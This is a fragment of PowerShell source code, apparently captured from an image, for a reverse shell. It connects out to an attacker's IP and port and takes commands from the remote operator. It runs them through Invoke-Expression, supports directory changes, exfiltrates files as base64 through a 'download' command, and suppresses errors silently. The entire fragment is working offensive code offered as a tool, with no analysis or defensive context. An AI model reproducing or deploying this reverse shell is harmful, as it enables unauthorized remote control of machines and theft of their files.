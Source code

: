 ```powershell
                    $client.Close()
                    return
                }
                '^cd\s+(.+)$' {
                    try {
                        Set-Location $matches[1]
                        $response = "Changed directory to: $(Get-Location)`nPS $((Get-Location).Path)> "
                    } catch {
                        $response = "Error changing directory: $($_.Exception.Message)`nPS $((Get-Location).Path)> "
                    }
                }
                '^download\s+(.+)$' {
                    try {
                        $file = $matches[1]
                        if (Test-Path $file) {
                            $content = [Convert]::ToBase64String([IO.File]::ReadAllBytes($file))
                            $response = "[FILE_START]`n$content`n[FILE_END]`nPS $((Get-Location).Path)> "
                        } else {
                            $response = "File not found: $file`nPS $((Get-Location).Path)> "
                        }
                    } catch {
                        $response = "Download error: $($_.Exception.Message)`nPS $((Get-Location).Path)> "
                    }
                }
                default {
                    try {
                        $result = (Invoke-Expression $command 2>&1 | Out-String)
                        $response = $result + "PS $((Get-Location).Path)> "
                    } catch {
                        $response = "Error: $($_.Exception.Message)`nPS $((Get-Location).Path)> "
                    }
                }
            }
            
            $responseBytes = ([text.encoding]::ASCII).GetBytes($response)
            $stream.Write($responseBytes, 0, $responseBytes.Length)
            $stream.Flush()
        }
        
    } catch {
        # Fail silently
    } finally {
        if ($client) { $client.Close() }
    }
}

# Execute the reverse shell
Invoke-AdvancedReverseShell -IP $AttackerIP -Port $AttackerPort
```
